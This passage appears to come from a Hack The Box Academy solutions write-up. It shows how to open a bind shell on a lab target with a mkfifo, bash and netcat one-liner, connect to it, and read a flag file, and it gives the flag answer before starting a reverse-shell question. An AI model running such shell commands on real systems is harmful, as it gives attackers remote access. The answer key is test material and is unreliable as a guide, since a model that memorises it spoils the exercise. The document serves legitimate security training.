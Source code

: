 Then, students need to start a bind shell listener on the spawned target machine:

Code: shell

```shell
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l STMIP STMPO > /tmp/f
```

```
htb-student@ubuntu:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.201.134 7777 > /tmp/f
```

Subsequently, students need to connect to the spawned target machine from Pwnbox/`PMVPN` by connecting to the bind shell listening on it:

Code: shell

```shell
nc -nv STMIP STMPO
```

```
┌─[eu-academy-2]─[10.10.15.49]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ nc -nv 10.129.201.134 7777
(UNKNOWN) [10.129.201.134] 7777 (?) open

htb-student@ubuntu:~$ 
```

![[HTB Solutions/CPTS/z. images/3aa9dbbfb9d54c89d8cdc7fcb9623379_MD5.jpg]]

Now that students have attained a bind shell on the spawned target machine, they can read the flag file "flag.txt" under the "/customscripts/" directory:

Code: shell

```shell
cat /customscripts/flag.txt
```

```
htb-student@ubuntu:~$ cat /customscripts/flag.txt

B1nD_Shells_r_cool
```

Answer: `B1nD_Shells_r_cool`

# Reverse Shells

## Question 1

### "When establishing a reverse shell session with a target, will the target act as a client or server?"

Students will know after reading the section's content that the target will act as a `client`:
